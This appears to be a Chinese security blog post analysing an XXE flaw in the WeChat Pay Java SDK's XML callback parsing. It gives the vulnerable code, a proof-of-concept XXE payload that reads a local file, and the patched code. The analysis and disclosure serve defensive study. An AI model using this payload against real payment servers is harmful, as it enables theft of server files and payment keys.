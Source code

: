 ```yaml
---
layout: post
title: "微信支付SDK XXE漏洞分析"
date: 2018-07-04
description: "微信支付SDK XXE漏洞分析"
tag: 应用安全
---
```


------

## 漏洞描述
微信在JAVA版本的SDK中提供callback回调功能，用来帮助商家接收异步付款结果，该接口接受XML格式的数据，攻击者可以构造恶意的回调数据（XML格式）来窃取商家服务器上的任何文件，一般支付服务器均为核心服务器，出现XXE导致任意文件。另外，一旦攻击者获得了关键支付的安全密钥（md5-key和商家信息，将可以直接实现0元支付购买任何商品）。

## 漏洞来源
[http://seclists.org/fulldisclosure/2018/Jul/3](http://seclists.org/fulldisclosure/2018/Jul/3)  
[https://xz.aliyun.com/t/2427](https://xz.aliyun.com/t/2427)

## 漏洞分析
[微信支付Java SDK 下载](https://drive.google.com/file/d/1AoxfkxD7Kokl0uqILaqTnGAXSUR1o6ud/view?usp=sharing)
### 漏洞关键代码
* WXPayUtil.java
```java
public static Map<String, String> xmlToMap(String strXML) throws Exception {
        try {
            Map<String, String> data = new HashMap<String, String>();
            DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
            DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
            InputStream stream = new ByteArrayInputStream(strXML.getBytes("UTF-8"));
            org.w3c.dom.Document doc = documentBuilder.parse(stream);
            doc.getDocumentElement().normalize();
            NodeList nodeList = doc.getDocumentElement().getChildNodes();
            for (int idx = 0; idx < nodeList.getLength(); ++idx) {
                Node node = nodeList.item(idx);
                if (node.getNodeType() == Node.ELEMENT_NODE) {
                    org.w3c.dom.Element element = (org.w3c.dom.Element) node;
                    data.put(element.getNodeName(), element.getTextContent());
                }
            }
            try {
                stream.close();
            } catch (Exception ex) {
                // do nothing
            }
            return data;
        } catch (Exception ex) {
            WXPayUtil.getLogger().warn("Invalid XML, can not convert to map. Error message: {}. XML content: {}", ex.getMessage(), strXML);
            throw ex;
        }

    }
```

微信SDK的xmlToMap方法接受并处理XML数据，但是默认支持外部实体解析，所以只要可以控制strXML就能导致XXE漏洞。

### 微信SDK支付逻辑
根据README可以看到，微信SDK的支付逻辑如下：  
1.首先统一下单

```java
import com.github.wxpay.sdk.WXPay;
import java.util.HashMap;
import java.util.Map;

public class WXPayExample {

    public static void main(String[] args) throws Exception {

        MyConfig config = new MyConfig();
        WXPay wxpay = new WXPay(config);

        Map<String, String> data = new HashMap<String, String>();
        data.put("body", "腾讯充值中心-QQ会员充值");
        data.put("out_trade_no", "2016090910595900000012");
        data.put("device_info", "");
        data.put("fee_type", "CNY");
        data.put("total_fee", "1");
        data.put("spbill_create_ip", "123.12.12.123");
        data.put("notify_url", "http://www.example.com/wxpay/notify");
        data.put("trade_type", "NATIVE");  // 此处指定为扫码支付
        data.put("product_id", "12");

        try {
            Map<String, String> resp = wxpay.unifiedOrder(data);
            System.out.println(resp);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```

其中notify_url是接入方自己构建的web接口，用于异步接收微信支付结果通知的回调地址。  
2.处理微信回调

```java
import com.github.wxpay.sdk.WXPay;
import com.github.wxpay.sdk.WXPayUtil;
import java.util.Map;

public class WXPayExample {

    public static void main(String[] args) throws Exception {

        String notifyData = "...."; // 支付结果通知的xml格式数据

        MyConfig config = new MyConfig();
        WXPay wxpay = new WXPay(config);

        Map<String, String> notifyMap = WXPayUtil.xmlToMap(notifyData);  // 转换成map

        if (wxpay.isPayResultNotifySignatureValid(notifyMap)) {
            // 签名正确
            // 进行处理。
            // 注意特殊情况：订单已经退款，但收到了支付结果成功的通知，不应把商户侧订单状态从退款改成支付成功
        }
        else {
            // 签名错误，如果数据里没有sign字段，也认为是签名错误
        }
    }

}
```

nodifyData实际是微信给接入方回调地址notify_url返回的xml数据。接入方使用xmlToMap处理nodifydata。攻击者只需要知道nodify_url，就可以构造XXE Payload进行攻击。

### 漏洞复现
简单修改SDK中示例代码的xmlStr为XXE Payload，查看可否实现XXE攻击。
* TestWXPay.java

```java
    /**
     * 小测试
     */
    public void test001() {
        String xmlStr="<?xml version=\"1.0\" encoding=\"utf-8\"?>\n" +
                "<!DOCTYPE root [\n" +
                "\t<!ENTITY xxe SYSTEM \"file:///C:\\Windows\\System32\\drivers\\etc\\hosts\">]>\n" +
                "<root>\n" +
                "\t<xxe>&xxe;</xxe>\n" +
                "</root>";
        try {
            System.out.println(xmlStr);
            System.out.println("+++++++++++++++++");
//            System.out.println(WXPayUtil.isSignatureValid(xmlStr, config.getKey())); //此处可注释测试，接入方处理微信回调时也是先调用xmlToMap再校验签名的
            Map<String, String> hm = WXPayUtil.xmlToMap(xmlStr);
            System.out.println("+++++++++++++++++");
            System.out.println(hm);
//            System.out.println(hm.get("attach").length()); //此处可注释

        } catch (Exception e) {
            e.printStackTrace();
        }

    }
```

* 执行结果  
![](/images/posts/app_sec/WXPay_result1_2018-07-04_20-53-14.png)  
已经成功读取hosts文件。证明只要接入方使用了此版本SDK并且攻击者知道回调地址，就可以成功实现XXE攻击。

## 修复建议
`禁用外部实体解析`  
目前微信支付Java SDK已经修复了代码，可以在[这里](https://drive.google.com/file/d/1cHtElmTLfDRov1poIAAD70jwa8NGh78P/view?usp=sharing)下载修复后代码。
* WXPayUtil.java  
```java
 public static Map<String, String> xmlToMap(String strXML) throws Exception {
        try {
            Map<String, String> data = new HashMap<String, String>();
            DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
			documentBuilderFactory.setExpandEntityReferences(false); //禁用外部实体解析
			documentBuilderFactory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true); //开启XML安全处理
            DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
            InputStream stream = new ByteArrayInputStream(strXML.getBytes("UTF-8"));
            org.w3c.dom.Document doc = documentBuilder.parse(stream);
            doc.getDocumentElement().normalize();
            NodeList nodeList = doc.getDocumentElement().getChildNodes();
            for (int idx = 0; idx < nodeList.getLength(); ++idx) {
                Node node = nodeList.item(idx);
                if (node.getNodeType() == Node.ELEMENT_NODE) {
                    org.w3c.dom.Element element = (org.w3c.dom.Element) node;
                    data.put(element.getNodeName(), element.getTextContent());
                }
            }
            try {
                stream.close();
            } catch (Exception ex) {
                // do nothing
            }
            return data;
        } catch (Exception ex) {
            WXPayUtil.getLogger().warn("Invalid XML, can not convert to map. Error message: {}. XML content: {}", ex.getMessage(), strXML);
            throw ex;
        }

    }
```
* 修复后执行结果  
![](/images/posts/app_sec/WXPay_result2_2018-07-04_20-53-14.png)  